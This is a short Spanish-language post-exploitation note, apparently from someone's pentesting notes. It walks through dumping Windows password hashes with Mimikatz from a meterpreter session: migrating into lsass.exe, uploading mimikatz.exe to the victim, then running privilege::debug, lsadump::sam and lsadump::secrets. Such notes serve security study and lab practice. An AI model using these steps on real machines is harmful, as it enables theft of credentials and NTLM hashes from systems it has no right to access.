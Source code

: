 
# Dumpear/volcar hashes de Windows

## Mimikazt

Es una herramienta de postexplotación para Windows, que permite extraer contraseñas en texto plano, hashes y tickets Kerberos en memoria.

La base de datos **SAM (Security Account Manager)** es un archivo de base de datos en los sistemas Windows que almacena las **contraseñas de usuario en formato hash**.

Mimikatz puede extraer **hashes de la memoria del proceso lsass.exe**, donde se almacenan en caché los hashes.

Para escalar privilegios:

```
meterpreter> pgrep lsass
meterpreter> migrate <PID>
meterpreter> getuid
```

Descargamos Mimikazt:

https://github.com/ParrotSec/mimikatz

Lo subimos en la víctima:

```
meterpreter> upload <ruta/mimikatz.exe>
```

Cambiar ahora de meterpreter a shell nativo de Windows y ejecutarlo:

```
C:\temp .\mimikatz.exe
```

Comprobar privilegios necesarios:

```
mimikatz # privilege::debug
```

Si devuelve 20 OK, es que tenemos permisos.

Para encontrar el contenido de caché del proceso lsass o los volcados de hash de SAM:

```
mimikatz # lsadump::sam
```

Se ve la clave SAM que puede ayudar a autenticarse a usuarios locales y remotos en windows, y algún hash NTLM.

Si tiene RID 500 es administrador.

También para más información:

```
mimikatz # lsadump::secrets
```
